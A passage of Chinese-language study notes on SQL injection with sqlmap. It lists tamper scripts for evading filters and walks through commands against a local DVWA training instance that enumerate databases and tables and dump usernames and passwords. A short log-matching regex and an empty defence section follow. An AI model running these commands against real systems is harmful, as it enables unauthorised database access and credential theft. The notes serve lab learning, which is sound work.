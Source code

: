`-T users`

`-C username,password`

- 替换模版

> --tamper "space2comment"               空格转注释
>
> ​			charencode                               编码
>
> ​			charunicodeencode                
>
> ​			randomcomment                   关键字过滤
>
> ​			equal2like                                 等号过滤
>
> ​			space2plus                                空格转+

- 其他选项 

`--batch                  不使用交互攻击，直接使用默认选项`

`--purge                  清空sqlmap缓存（类似于重置）`

**注入示例：**

> sqlmap.py --dbs
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"
>
> sqlmap.py --tables -D dvwa 
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"
>
> sqlmap.py --columns -D dvwa -T users
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"
>
> sqlmap.py --dump -C user,password -D dvwa -T users --batch
> -u "http://127.0.0.1:8082/vulnerabilities/sqli/?id=1&Submit=Submit#" 
> --cookie="PHPSESSID=74abd58cvtj25723u7grlgu3h5; security=low"

注入点和回显点不在同一个页面的情况:

`--second-url=""`



正则匹配特征： 
Re      preg    /xxx/y

```
^172\.16\.12\.12 -.* "[A-Z]+ /.*(asp|php|jsp).*" 200 
```

## 防御手段

![image-20241123230928456](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241123230928456.png)
